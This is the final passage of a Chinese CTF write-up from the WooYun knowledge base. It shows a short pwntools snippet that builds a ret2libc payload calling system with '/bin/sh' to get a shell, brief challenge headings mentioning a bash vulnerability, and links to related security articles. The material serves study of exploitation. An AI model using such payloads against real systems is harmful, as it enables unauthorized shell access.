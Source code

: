 ```
payload = junk + l32(system) + junk + l32(binsh) 
io.write(payload.ljust(32, 'A'))

io.interact()

```

￼￼￼￼Safesite Web 400

### Up-to-Date Web 100

bash 漏洞,flag 在/var/www 下 ￼

![enter image description here](img/img4_u29_png.jpg)

版权声明：未经授权禁止转载 [Sasiki](http://drops.wooyun.org/author/Sasiki "由 Sasiki 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [2014 年澳大利亚信息安全挑战 CySCA CTF 官方 write up Web 篇](http://drops.wooyun.org/tips/2444)
*   [生物特征识别之指纹识别，伪造，指纹设备缺陷设计](http://drops.wooyun.org/tips/2140)
*   [hackyou2014 CTF web 关卡通关攻略](http://drops.wooyun.org/tips/870)
*   [Blind Return Oriented Programming (BROP) Attack – 攻击原理](http://drops.wooyun.org/tips/3071)
*   [Alictf2014 Writeup](http://drops.wooyun.org/tips/3166)
*   [羊年内核堆风水： “Big Kids’ Pool”中的堆喷技术](http://drops.wooyun.org/tips/4766)